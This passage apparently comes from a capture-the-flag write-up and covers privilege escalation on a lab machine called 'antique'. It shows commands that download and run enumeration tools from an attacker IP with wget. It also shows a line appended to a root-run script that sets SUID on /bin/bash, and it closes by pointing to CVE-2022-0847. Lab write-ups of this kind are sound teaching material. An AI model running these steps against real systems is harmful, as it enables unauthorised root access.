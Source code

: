 ## Privilege escaltion
List the users with a shell in the system:
```bash
lp@antique:~$ cat /etc/passwd | grep "sh$"
root:x:0:0:root:/root:/bin/bash
```
We cam now enumerate the privesc vulnerabilities:

### linpeas.sh
```bash
lp@antique:~$ wget 10.10.14.18:4444/linpeas.sh
lp@antique:~$ chmod +x linpeas.sh
lp@antique:~$ ./linpeas.sh
```
We only discover that the sudo version is `1.8.31`, which we know could be vulnerable to `pkexec`, but that's not the intended way to escalate. Also, as we can see in:
```bash
lp@antique:~$ groups
lp lpadmin
```
User `lp` is part of te `lpadmin` group, this can be useful in the future.

### Pspy32s
Use `pspy` to peak on the processes cronned by root:
```bash
lp@antique:~$ wget 10.10.14.18:4444/pspy32s
lp@antique:~$ chmod +x pspy32s 
lp@antique:~$ ./pspy32s -c -i 100 | grep UID=0
```
Some interesting output obtained with `pspy32s`:
```bash
2022/06/05 22:58:22 CMD: UID=0    PID=1007   | sudo -u lp authbind --deep python3 /var/spool/lpd/telnet.py
```
Seems like root is executing the `/var/spool/lpd/telnet.py` script periodically, and this file is owned by:
```bash
lp@antique:~$ ls -la telnet.py 
-rwxr-xr-x 1 lp lp 1959 Sep 27  2021 telnet.py
```
It is owned by `lp`, so we can try to modify this script to obtain privileges, for example giving `suid` to `/bin/bash`:
```bash
lp@antique:~$ echo "os.system('chmod +s /bin/bash')" >> telnet.py
lp@antique:~$ tail telnet.py 
with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
		s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
		s.bind((HOST, PORT))
		s.listen()
		while True:
			conn, addr = s.accept()
			start_new_thread(threaded, (conn,))
		s.close()

os.system("chmod +s /bin/bash")
```
But, as this script is only ran when resseting the machine, we cannot exploit this vulnerability. If we look at the linux version:
```bash
lp@antique:~$ uname -a
Linux antique 5.13.0-051300-generic #202106272333 SMP Sun Jun 27 23:36:43 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
```
We can see a very old version, which is vulnerable to [CVE-2022-0847](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-0847):